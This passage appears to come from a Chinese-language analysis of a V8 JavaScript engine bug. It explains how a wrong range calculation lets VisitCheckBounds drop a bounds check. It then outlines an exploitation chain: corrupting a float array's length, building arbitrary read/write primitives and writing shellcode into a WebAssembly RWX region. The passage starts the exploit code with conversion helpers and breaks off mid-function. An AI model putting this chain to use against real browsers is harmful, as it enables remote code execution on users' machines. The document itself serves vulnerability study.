 ```c
min_lhs : 0
max_lhs : 65534
min_rhs : 16
max_rhs : 16
```

计算得到NumberShiftRight的范围为：Range(0,0)。该结果作为数组的index，最终在VisitCheckBounds中会比较该范围和数组最大的长度，如果index恒小于数组的length，那么就会将其remove。

VisitCheckBounds函数实现如下：

```c
void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckParameters const& p = CheckParametersOf(node->op());
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));
    if (length_type.Is(Type::Unsigned31())) {
      if (index_type.Is(Type::Integral32OrMinusZero())) {
        // Map -0 to 0, and the values in the [-2^31,-1] range to the
        // [2^31,2^32-1] range, which will be considered out-of-bounds
        // as well, because the {length_type} is limited to Unsigned31.
        VisitBinop(node, UseInfo::TruncatingWord32(),
                   MachineRepresentation::kWord32);
        if (lower()) {
          if (lowering->poisoning_level_ ==
                  PoisoningMitigationLevel::kDontPoison &&
              (index_type.IsNone() || length_type.IsNone() ||
               (index_type.Min() >= 0.0 &&
                index_type.Max() < length_type.Min()))) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            DeferReplacement(node, node->InputAt(0));
```



## 漏洞利用

越界读写的常规思路：

（1）利用poc代码造成越界读写，在越界读写后面布置float类型的数组，越界修改float数组的length

（2）此时float数组就可以进行越界读写，根据mark查找wasm_function对象的地址

（3）根据data_buf的大小查找data_buf->backing_store，用于构造任意读写原语

（4）根据wasm_function–>shared_info–>WasmExportedFunctionData（data）–>instance+0xe8 找到rwx的区域，将shellcode写入该区域即可。

exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);

function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
```